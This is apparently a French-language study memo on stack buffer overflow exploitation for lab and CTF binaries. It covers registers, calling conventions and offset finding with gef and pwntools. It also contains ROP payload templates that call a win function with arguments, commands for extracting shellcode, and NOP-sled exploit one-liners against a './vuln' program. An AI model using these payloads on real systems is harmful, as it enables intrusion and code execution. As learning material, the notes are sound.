



## Documentation

- https://en.wikipedia.org/wiki/Stack-based_memory_allocation
- https://training.tosch.io/appsec101
- https://beta.hackndo.com/stack-introduction/
- https://beta.hackndo.com/buffer-overflow/
- https://www.0x0ff.info/2015/buffer-overflow-gdb-part-3/
- https://github.com/guyinatuxedo/remenissions/blob/master/docs/exploit-methods.md


## Memo stack 

- https://maxnilz.com/docs/005-lang/moderncpp/004-pointer-ref/#21-references-or-aliases-
- https://zestedesavoir.com/articles/100/introduction-aux-buffer-overflows/


### Alignement

```
*ebp = &base
*esp = &top
```

-`push ebp` => `esp -=4||8 (x64); *esp = ebp`
-`push rbp` => `rsp -=4||8 (x64); *rsp = rbp`
-`next instruction` => `eip +=1`; `eip = &next`

- https://stackoverflow.com/questions/1061818/stack-allocation-padding-and-alignment


```txt
It's a gcc feature controlled by -mpreferred-stack-boundary=n where the compiler tries to keep items on the stack aligned to 2^n. If you changed n to 2, it would only allocate 8 bytes on the stack. The default value for n is 4 i.e. it will try to align to 16-byte boundaries.
```


## Stack & registers

La pile - `GNU_STACK` - contient des addresses, empilees/depilees selon les instructions/le code - `.text` -.
Voici un memo de ce qui suit pour les correspondances x86/arm:

- https://syscalls.mebeim.net/?table=x86/64/x64/latest
- ` ssize_t read(int fd, void buf[.count], size_t count);` :
- `read(stdin, buf, 40)` : ne rajoute pas de **NULL** + **leakable**, pivot exploitable ssi $pc = &read + conn.send(rop), stop avec "\n" ou NULL
- `scanf("%40s", buf)`: prend 40 bytes puis rajoute **NULL** (1 byte overflow)
- **break gdb pour connaître &buf**
- **32 bits: pc-=4, 64 bits: pc-=8**

- **Cheatsheets**:
	- [Intel/AMD64 SSE](https://en.wikipedia.org/wiki/Streaming_SIMD_Extensions)
	- [ARM - Azeria](https://azeria-labs.com/writing-arm-assembly-part-1/)
	- [MIPS](https://www.kth.se/social/files/54948c82f276540590491ed4/mips-ref-cheat-sheet.pdf)

```
--------------------------------------------------------
|            |  x86  | amd64 | arm    | aarch64 | mips |
--------------------------------------------------------
| ret val reg|  eax  | rax   | r7     |   x8   |  ra   |
--------------------------------------------------------
|   1st arg  |[eax+4]| rdi   | r0     |   x0   |  a0   |
--------------------------------------------------------
|   2nd arg  |[eax+8]| rsi   | r1     |   x1   |  a1   |
--------------------------------------------------------
|    call    |int0x80| call  | lr(r14)|   lr   |syscall|
--------------------------------------------------------
|  func ret  |  eax  | rax   | r0     |   x0   | v0,v1 |
--------------------------------------------------------
|  IP / PC   |  eip  | rip   | pc(r15)|   pc   |  pc   |
--------------------------------------------------------
|  stack pt  |  esp  | rsp   | sp(r13)|   sp   |  sp   |
--------------------------------------------------------
|  frame pt  |  ebp  | rbp   | fp(r11)|   fp   |  fp   |
--------------------------------------------------------
|  mem load  |  mov  | mov   | ldr    |   ldr  | li,lw |
--------------------------------------------------------
|  mem store |  mov  | mov   | str    |  str |sb,sh,sw |
--------------------------------------------------------
```

**Registres (CPU)**

- **ebp** = base pointer: `*ebp = &base`
- **esp** = save pointer: `*esp = &top`
- **eip** = instruction pointer (pointe vers la prochaine instruction): `*eip = &next_instruction`

**Stack**

- **saved ebp** = (mémoire) sauvegarde du caller ebp (base de la frame) sur la stack
- **saved eip** = (mémoire) sauvegarde du caller eip (addresse de retour) sur la stack

**Text (Instructions)**

- **call** = `push eip; jmp (addr func)` = sauvegarde eip (addresse du ret) sur la frame de callee (func), et saute sur func (suite => prologue)
- **leave** = `mov esp, ebp; pop ebp` = retablit esp (en le rabaissant a esp), puis ebp = & saved ebp
- **ret** = `pop eip; jmp (addr main)` = instruction permettant de mettre eip = &saved eip et d'éxécuter le code contenu à saved eip

Rq:

- 1 word = 2bytes
- `push ebp` => `esp -=4; *esp = ebp` (x86 => double word (la pile se decale de 4byte a chaque instruction))
- `push rbp` => `rsp -=8; *rsp = rbp` (x64 => quad word)

Le but est donc :

-1) de contrôler saved eip
-2) d'atteindre le ret afin d'éxécuter le shellcode qu'on placera à partir de seip

Exemple:




## Calling conventions

Les variables locales sont toujours à offset négatif (i.e `rbp-0xn`).
Les arguments sont à offset positif (i.e `ebp+0xn` ) en x86. Ils sont passés par les registres jusqu'au 6ème puis à puis push (offset négatif `rbp-0xn`) à partir du 7ème en x86_64.

### 32 vs 64 bits (x86)

#### x86

- https://beta.hackndo.com/conventions-d-appel/
- https://en.wikipedia.org/wiki/X86_calling_conventions
- https://blog.devgenius.io/understanding-the-stack-a-precursor-to-exploiting-buffer-overflow-8c6972fdb4ac

En 32 bits, tous les paramètres sont poussés vers la pile **dans l'ordre inverse** avant que la fonction ne soit appelée (STDCALL).
E.G pour `maFonctionTest(1,2,3)` :

```asm
; .text
pushl $3 ; pousse la constante 3, d'où le symbole $
pushl $2 ; idem
pushl $1 ; idem
call 0xcafebabe ; appel de maFonctionTest
add %esp, 0xc ; dépile 0xc = 12 bytes - l'épilogue peut se faire dans callee ou caller (ici) selon la convention
```

#### x86_64

En 64 bits, cependant, les 6 premiers sont stockés dans les registres RDI, RSI, RDX, RCX, R8 et R9 respectivement selon la convention d'appel (FASTCALL, dépend de l'OS).

```asm
mov     esi, 0          ; buf stdin
mov     rdi, rax        ; stream
call    _setbuf			; void setbuf(FILE *restrict stream, char *restrict buf);
```

### Calling win(arg1,arg2) on x86 and x64

- [See function_rop](./rop/function_rop)
- https://beta.hackndo.com/conventions-d-appel/
- https://dp12.github.io/posts/calling-conventions-for-pwn-and-profit/
- https://github.com/ir0nstone/cybersec-notes/blob/master/binexp/stack/return-oriented-programming/exploiting-calling-conventions.md

```python
# x86
payload = b"\x90" * offset
payload += p32(win)
## we already are on the stack

## call win ; push eip_main = fake return address for win
payload += p32(0x12345678)

## no push in reverse order => values in order
payload += p32(arg1)
payload += p32(arg2)

#stack after overflow:
#------
#&win	 <- RIP
#fake_ret
#arg1
#arg2
#------
#
#x86 equivalent:
#push arg2
#push arg1
#;call win
#push fake_ret
#jmp eip	;win(arg1,arg2)
```

```python
# x64
payload = b"\x90" * offset
payload += p64(POP_RDI)			# pop rdi; ret
payload += p64(arg1)			# value into rdi -> first param
payload += p64(POP_RSI_R15)		# pop rsi; pop r15; ret
payload += p64(arg2)			# value into rsi -> first param
payload += p64(0x0)				# value into r15 -> not important
payload += p64(win)
payload += p64(0x0)

#registers after overflow:
#rdi = arg1
#rsi = arg2
#r15 = 0 ; not important
#
#stack after overflow:
#------
#POP_RDI <- RIP
#arg1	; popped into rdi
#POP_RSI_R15
#arg2	; popped into rsi
#0		; popped into r15
#win	; win(rdi,rsi)
#0
#------
#
#x86_64 equivalent:
#
#mov rdi, arg1
#mov rsi, arg2
#mov r15, 0
#call win ; win(rdi,rsi)
```

### Alignement & x64 MOVABS Issue

- https://ropemporium.com/guide.html => **common pitfalls**
- https://www.felixcloutier.com/x86/movaps
- https://stackoverflow.com/questions/1061818/stack-allocation-padding-and-alignment
- https://gist.githubusercontent.com/dmur1/9bf25015f731f99f94ab5882e48de66d/raw/b78c267f9234dbe57c197dab0c51c508384f0be9/5202c515_go.py


### All call conventions (x86;x86_64,arm,aarch64,powerpc,riscv)

- https://dp12.github.io/posts/calling-conventions-for-pwn-and-profit/
- https://www.ired.team/miscellaneous-reversing-forensics/windows-kernel-internals/linux-x64-calling-convention-stack-frame
- https://www.ired.team/miscellaneous-reversing-forensics/windows-kernel-internals/windows-x64-calling-convention-stack-frame


## Stack exploitation (x86/amd64 examples)








### Find offset (saved eip)

- https://hugsy.github.io/gef/commands/pattern/
- https://hugsy.github.io/gef/commands/search-pattern/
- https://www.ctfrecipes.com/pwn/stack-exploitation/stack-buffer-overflow/de-bruijn-sequences

```bash
pwn cyclic -n <4|8> 500
```

```bash
gef -q ./vuln
pattern create 500

# break main
run # adapt arguments
info frame 

x/4s <addresse saved eip>
pattern search <contenu saved eip>
```

### Shellcoding

- *Find Shellcode Address*
	- *using previous esp (procedure n-1) in gdb* : `b *main; r $(python -c 'print('A'*<offset_seip>)`
	- *using environment*: `export LOGNAME = $(python -c "print('\x90'*100 + <shellcode>")` and use [./getenv LOGNAME](./getenv.c)

- Go to shell-storm or create shellcode.

```bash
objcopy -O binary -K shellcode shellcode.o temp.bin
hexdump -v -e '"\\""x" 1/1 "%02x" ""' temp.bin > shellcode.bin
```

**Ssi pwntools**

```bash
pwn asm -c32 -i shellcode.asm -f string
pwn asm -c amd64 -i shellcode.asm -f string
```

**Ssi radare2**

```bash
#r2 - obtenir un opcode en armv8
rasm2 -aarm -b64 -C 'nop'
```

- Exploit


```bash
./vuln $(python -c "print('A'*<offset_seip> + <&eip (half in nops)> + '\x90'*300 + <shellcode>
```

```
# environment variant
./vuln $(python -c "print('A'*<offset_seip> + <environment_address_var>)"
```

Other method:


